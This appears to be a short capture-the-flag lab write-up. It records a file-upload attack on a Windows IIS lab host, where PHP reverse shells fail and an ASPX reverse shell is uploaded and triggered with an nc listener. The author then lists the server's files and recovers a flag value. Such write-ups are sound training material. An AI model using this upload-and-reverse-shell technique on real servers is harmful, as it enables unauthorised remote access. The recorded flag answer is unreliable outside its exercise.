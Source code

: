 - Verify where file was uploaded (port 80)
```bash
curl http://192.168.193.192/file_uploadtest.txt                               
	this is a test
```

- Test uploading and using revshell.php (renamed revshell.pHP, revshell.php7, revshell.phps, etc) produces a 404 Not Found error
- Test w/ an [aspx revshell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) works
  
  - Upload **revshell.aspx**
  - Start **nc** listener
  - Navigate to **192.168.193.192/revshell.aspx**
```bash
# nc listener tab
c:\windows\system32\inetsrv>dir C:\inetpub\
	 Volume in drive C has no label.
	 Volume Serial Number is 6671-471A
	
	 Directory of C:\inetpub
	
	05/26/2022  09:20 PM    <DIR>          .
	05/26/2022  03:27 AM    <DIR>          custerr
	02/21/2024  07:50 PM                38 flag.txt
	05/26/2022  12:17 PM    <DIR>          history
	05/26/2022  04:10 AM    <DIR>          logs
	05/26/2022  03:27 AM    <DIR>          temp
	02/21/2024  09:08 PM    <DIR>          wwwroot
	               1 File(s)             38 bytes
	               6 Dir(s)   5,283,405,824 bytes free

c:\windows\system32\inetsrv>type C:\inetpub\flag.txt
```


> Answer:  OS{957c12ea6b71e0538c1beeddc993c501}